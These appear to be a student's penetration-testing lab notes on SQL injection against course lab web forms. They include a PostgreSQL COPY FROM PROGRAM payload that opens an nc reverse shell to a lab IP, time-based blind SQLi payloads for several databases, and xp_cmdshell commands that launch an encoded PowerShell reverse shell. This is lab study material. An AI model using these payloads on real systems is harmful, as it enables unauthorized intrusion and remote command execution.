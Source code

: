 ## 10.3.2  Q6
1. class submittal form at bottom of  page, I signed up! Sent to Burp POST
```shell
weight=1&height=2&age=2&gender=Male&email=bob%40bob.com
```
2. Checked for SQLi, 2nd FIELD, `height` produced an error.
`Warning</b>:  pg_query(): Query failed: ERROR:  unterminated quoted string at or n`
`LINE 1: select * from users where email like '%2'%'`
`^ in <b>/var/www/html/class.php</b> on line <b>423` 
    * PostGress DB?  
    * /var/www/html  NGINX?
3. Finding columns, looks like 6 it is, updated query: `weight=1&height=' ORDER BY 6 -- //  `
4. Enumerate/identify col?  I couldn't figure out how to enumerate POSTGRESS DB, Tables, or COL
5. Started NCAT listener, used  following syntax in BURP and sent 
    *   `weight=1&height='%3bDROP+TABLE+IF+EXISTS+commandexec%3bCREATE+TABLE+commandexec(data+text)%3bCOPY+commandexec+FROM+PROGRAM+'/usr/bin/nc.traditional+-e+/bin/sh+192.168.45.241+4444'%3b--&age=24&gender=Male&email=test%40offsec.com  `
6. I don't understand where this comes from, but maybes its a common Postgress SQL inject
7. Gemini decoded 
    * ` ' ; DROP TABLE IF EXISTS commandexec ; CREATE TABLE commandexec(data text) ; COPY commandexec FROM PROGRAM '/usr/bin/nc.traditional -e /bin/sh 192.168.45.245 443' ; --  `

* THOUGHTS: 
    * This is Blind SQLi
    * The commands are executing, but no data is in-band, so we only see errors
    * For instance, this commadn seems to have worked, but you get no feedback.
        *   `weight=1&height=' ; 	SELECT usename FROM pg_user; -- //  `
    * I guess this is why the solution is just use shell

## 10.3.2 Q7
- found login form on website at /login.aspx
- tested using  single quote, throws DB error
- Lab hint suggest to test for  DB type with time based delay.   Time based delay commands are 
```sql
# MSSQL
'; WAITFOR DELAY '0:0:5' --+-  

# MySQL
 ' AND (SELECT 5 FROM (SELECT(SLEEP(5)))a) AND '1'='1
 
 # Postgress
 ' AND 5=PG_SLEEP(5) AND '1'='1


# Blind SQLi

# listen on Kali
sudo tcpdump -i tun0 icmp   

#  send ping 
'; EXEC xp_cmdshell 'ping -n 1 192.168.45.241' --+-

# sent reverse encoded powershell shell
 ; EXEC xp_cmdshell 'powershell -e JABjAGwpaa==' --+-
 
#  Got  RevShell  online
whoami 
nt service\mssql$sqlexpress


```


